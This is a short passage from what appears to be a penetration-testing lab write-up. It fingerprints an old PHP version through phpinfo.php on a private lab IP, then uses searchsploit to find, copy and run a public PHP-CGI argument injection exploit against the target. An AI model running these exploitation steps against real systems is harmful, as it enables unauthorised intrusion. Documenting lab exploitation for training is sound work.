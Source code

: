 - Try to browse
  - `http://10.2.20.205/phpinfo.php`

```bash
PHP Version 5.2.4-2ubuntu5.10
```

![](4-exploitationassets/image-20230424150110254.png)

#### Manual/Script Exploitation

- Find an exploit

```bash
searchsploit php cgi
	PHP < 5.3.12 / < 5.4.2 - CGI Argument Injection | php/remote/18836.py
searchsploit -m 18836
python2 18836.py 10.2.20.205 80
# It executes
```
